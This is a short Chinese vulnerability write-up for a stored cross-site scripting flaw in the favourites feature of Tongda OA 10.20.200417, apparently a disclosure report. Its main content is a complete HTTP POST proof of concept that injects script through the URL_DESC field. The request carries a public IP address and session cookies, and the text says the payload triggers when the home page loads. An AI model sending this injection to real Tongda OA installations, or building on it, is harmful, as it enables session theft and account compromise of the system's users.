# TONGDA OFFICE Anywhere 10.20.200417-store xss

## 漏洞描述

通达OA 控制面板 页面收藏夹处存在存储型xss漏洞

## 复现步骤

### 步骤1

提交poc

```
POST /general/person_info/fav/add.php HTTP/1.1
Host: 127.0.0.1:88
Content-Length: 87
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://211.138.191.187:88
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://211.138.191.187:88/general/person_info/fav/index.php?IS_MAIN=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: SID_1=9cdfdedc; SID_4002=fd08b4a7; USER_NAME_COOKIE=%C0%EE%D3%C2; OA_USER_ID=3795; PHPSESSID=r4pki3jd1etr9bpbfd7o6uivo5; SID_3795=b8a99e8d
Connection: close

URL_NO=1&URL_DESC=cyberlab"]%3balert(1)//&URL=http%3A%2F%2Ftest.com&button=%CC%ED%BC%D3
```



### 步骤2

访问主页面，漏洞触发:

![image](https://github.com/jqz41401/jqzCVE/img/tongda_xss.jpg)
